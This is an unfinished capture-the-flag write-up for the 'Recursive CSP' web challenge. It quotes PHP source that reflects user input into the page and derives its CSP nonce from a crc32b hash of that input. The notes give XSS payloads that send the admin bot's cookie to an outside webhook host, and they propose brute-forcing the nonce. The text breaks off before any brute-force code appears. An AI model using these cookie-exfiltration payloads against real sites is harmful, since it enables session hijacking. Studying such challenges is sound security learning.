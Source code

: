 
# Recursive CSP
Description: the nonce isn't random, so how hard could this be?

(the flag is in the admin bot's cookie)

recursive-csp.mc.ax

Admin Bot

Solution:
+ given the source code:
```
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```
+ We can use unsafe-inline if we give the correct nounce which is made using crc32b algorithm.
+ Admin cookie will be the flag
+ if csp was not there our solution will be: <script>window.location="http://webhooksite.com/"+document.cookie</script>
+ As there is the nounce thing, our payload should be : <script nounce="sdfsd2324">window.location="http://webhooksite.com/"+document.cookie</script>
+ so basically we need to bruteforce the crc32b nounce.
+ 
